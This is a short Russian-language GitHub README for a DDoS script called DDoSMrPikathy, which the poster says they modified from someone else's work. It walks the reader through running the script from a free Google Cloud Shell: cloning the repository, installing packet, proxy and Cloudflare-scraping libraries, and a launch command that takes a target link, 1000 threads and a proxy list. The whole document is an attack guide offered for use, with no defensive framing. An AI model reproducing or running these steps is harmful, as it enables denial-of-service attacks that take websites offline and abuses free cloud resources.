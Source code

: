 # DDoSMrPikathy
Данный скрипт не мой но он мной изменен
Для работы данного скрипта вам нужно будет перейти на бесплатный SHELL
- https://shell.cloud.google.com
Написать следующие команды:

 -git clone https://github.com/MrPikathy/DDoSMrPikathy.git
- ls
- cd DDoSMrPikathy
- pip3 install icmplib requests pysocks cfscrape scapy
- python3 start.py

Запуск ддоса:

- python3 start.py CFB Ссылка 1 1000 http.txt 1000 1000
